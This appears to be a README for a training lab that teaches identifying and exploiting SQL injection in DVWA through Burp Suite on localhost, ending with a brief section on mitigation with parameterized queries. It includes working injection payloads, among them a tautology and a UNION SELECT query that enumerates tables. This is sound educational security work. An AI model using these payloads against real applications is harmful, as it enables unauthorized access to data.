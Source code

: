 # Project 1: Identifying and Exploiting SQL Injection Vulnerabilities

## Introduction
SQL Injection is a critical web security vulnerability that allows attackers to interfere with the queries that an application makes to its database. It can allow attackers to view data that they are not normally able to retrieve, and sometimes it can be used to gain unauthorized access to the underlying system. This project will teach you how to identify and exploit SQL Injection vulnerabilities using Burp Suite and DVWA (Damn Vulnerable Web Application).

## Pre-requisites
- Basic understanding of web application concepts and the HTTP protocol.
- Familiarity with SQL queries and databases.
- A working installation of DVWA and Burp Suite Community Edition.

## Lab Set-up

### Setting up DVWA
1. **Install XAMPP**:
   - Download XAMPP from [Apache Friends](https://www.apachefriends.org/index.html) and install it.
   - Start the Apache and MySQL services from the XAMPP control panel.

2. **Install DVWA**:
   - Download DVWA from [GitHub](https://github.com/digininja/DVWA).
   - Extract the DVWA files into the `htdocs` directory of your XAMPP installation (e.g., `C:\xampp\htdocs\DVWA`).

3. **Configure DVWA**:
   - Open `config` directory inside DVWA (`C:\xampp\htdocs\DVWA\config`) and rename `config.inc.php.dist` to `config.inc.php`.
   - Edit `config.inc.php` and set the following database configurations:
     ```php
     $_DVWA['db_user'] = 'root';
     $_DVWA['db_password'] = '';
     $_DVWA['db_database'] = 'dvwa';
     ```

4. **Set up the DVWA Database**:
   - Open a web browser and navigate to `http://localhost/DVWA/setup.php`.
   - Click on the "Create / Reset Database" button to set up the database.
   - Log in to DVWA with the default credentials:
     ```
     Username: admin
     Password: password
     ```

### Setting up Burp Suite
1. **Download and Install Burp Suite**:
   - Download Burp Suite Community Edition from [PortSwigger](https://portswigger.net/burp/communitydownload) and install it.

2. **Configure Burp Suite with your Browser**:
   - Open Burp Suite and go to the "Proxy" tab.
   - Click on "Intercept is on" button to toggle interception off.
   - Go to "Options" sub-tab and ensure the proxy listener is running on 127.0.0.1:8080.
   - Configure your web browser to use Burp Suite as a proxy (set the proxy server to 127.0.0.1 and port 8080).

## Exercises

### Exercise 1: Identifying SQL Injection

1. **Set DVWA Security Level to Low**:
   - Log in to DVWA and go to the "DVWA Security" section.
   - Set the security level to "Low" and click "Submit".

2. **Navigate to SQL Injection Section**:
   - Go to the "SQL Injection" section in DVWA.

3. **Intercept the Request with Burp Suite**:
   - In your browser, enter a user ID (e.g., `1`) and click "Submit".
   - Burp Suite will intercept the request. Forward the request to see the result.

4. **Modify the Request to Exploit SQL Injection**:
   - Intercept the request again and modify the `id` parameter to an SQL Injection payload (e.g., `1' OR '1'='1`).
   - Forward the modified request and observe the response.

### Commands and Expected Output

1. **Initial Request Interception**:
   - Request intercepted by Burp Suite:
     ```
     GET /vulnerabilities/sqli/?id=1&Submit=Submit HTTP/1.1
     Host: localhost
     ```

2. **Modified Request with SQL Injection**:
   - Modify the intercepted request:
     ```
     GET /vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit HTTP/1.1
     Host: localhost
     ```
   - Expected output: The response should return all users in the database instead of just the one with ID `1`.

### Exercise 2: Retrieving Sensitive Data

1. **Crafting SQL Injection Payloads**:
   - Use payloads to extract database information. For example, to list database tables:
     ```
     GET /vulnerabilities/sqli/?id=1' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database()-- -&Submit=Submit HTTP/1.1
     ```

2. **Expected Output**:
   - The response should list the table names in the current database.

### Exercise 3: Mitigating SQL Injection

1. **Implementing Input Validation and Parameterized Queries**:
   - Modify the application code (if you have access) to use prepared statements and input validation.

2. **Testing the Mitigation**:
   - After applying the mitigation, repeat the SQL Injection attempts and ensure they are no longer successful.

## Conclusion
By completing these exercises, you will gain hands-on experience in identifying and exploiting SQL Injection vulnerabilities using Burp Suite and DVWA. Additionally, you will understand the importance of proper input validation and parameterized queries in preventing SQL Injection attacks.
